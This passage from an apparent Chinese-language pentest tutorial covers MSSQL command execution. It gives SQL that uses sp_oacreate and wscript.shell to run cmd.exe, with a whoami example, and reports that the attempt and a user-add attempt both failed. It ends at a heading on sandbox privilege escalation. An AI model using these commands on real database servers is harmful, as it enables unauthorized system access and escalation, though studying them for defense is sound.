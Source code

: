 ![sp_oacreate开启](./MsSQL/sp_oacreate开启.png)

```sql
执行命令
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c 执行的命令 > 输出的结果'

eg：执行whoami查看权限：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

但是，这个结果没有输出，明显是，执行失败了，去执行添加用户的命令，也失败了。

![sp_oacreate命令执行](./MsSQL/sp_oacreate命令执行.png)

### SqlServer沙盒提权
